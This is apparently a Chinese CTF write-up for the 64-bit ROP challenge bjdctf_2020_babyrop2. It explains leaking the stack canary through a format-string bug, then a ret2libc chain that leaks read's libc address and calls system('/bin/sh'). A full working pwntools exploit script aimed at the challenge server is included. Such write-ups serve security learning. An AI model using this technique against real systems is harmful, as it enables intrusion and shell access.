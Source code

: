 这是一道64位的ROP

![image-20201202161419033](https://static.hack1s.fun/images/2021/02/06/image-20201202161419033.png)

开启了canary栈保护

程序流程主要是首先一个gift输出了一些内容，之后vuln溢出

![image-20201202161745504](https://static.hack1s.fun/images/2021/02/06/image-20201202161745504.png)

vuln中的read导致溢出

![image-20201202161808839](https://static.hack1s.fun/images/2021/02/06/image-20201202161808839.png)

gift中其实也存在这样一个格式化字符串的漏洞

这里应该是要用printf来泄漏栈中canary的值

之后用read来ret2libc



那么首先来找format的偏移

一个一个尝试之后发现偏移在`%6$p`这里

![image-20201202171146730](https://static.hack1s.fun/images/2021/02/06/image-20201202171146730.png)

看到gift的代码中，保存cookie的v2在`rbp-8h`，格式化字符串在`rbp-10h`，两者差了8

正好是一个参数的距离，所以cookie的位置应该就是`%7$p`

确定了这个cookie之后，那么第一次使用printf首先得到输出的canary值

之后在构造栈上的填充时把这些内容放上去就可以了

```python
payload = bytes('a'*0x18,'ascii') + p64(canary) + bytes('b'*0x8,'ascii') + p64(pop_rdi_ret) + p64(elf.got['read']) + p64(elf.plt['puts']) + p64(elf.sym['main'])
```

之后就是常规的ret2libc

```python
from pwn import *
from LibcSearcher import *

io =remote('node3.buuoj.cn',27445)
#io = process('./bjdctf_2020_babyrop2')
elf = ELF('./bjdctf_2020_babyrop2')

io.recvuntil('help u!\n')
io.sendline("%7$p")

canary = int(io.recvline()[:-1],16)

io.recvuntil('story!\n')

pop_rdi_ret = 0x400993
pop_rsi_r15_ret = 0x400991

payload = bytes('a'*0x18,'ascii') + p64(canary) + bytes('b'*0x8,'ascii') + p64(pop_rdi_ret) + p64(elf.got['read']) + p64(elf.plt['puts']) + p64(elf.sym['main'])

io.sendline(payload)

read_real = io.recv(6).ljust(8,b'\0')
read_real = u64(read_real)

libc = LibcSearcher('read',read_real)
libc_base = read_real - libc.dump('read')

system_addr = libc_base + libc.dump('system')
bin_sh_addr = libc_base + libc.dump('str_bin_sh')

io.recvuntil('help u!\n')
io.sendline("%7$p")

canary = int(io.recvline()[:-1],16)
io.recvuntil('story!\n')

payload = bytes('a'*0x18,'ascii') + p64(canary) + bytes('b'*0x8,'ascii') + p64(pop_rdi_ret) + p64(bin_sh_addr) + p64(system_addr) + p64(elf.sym['main'])
io.sendline(payload)

io.interactive()
```

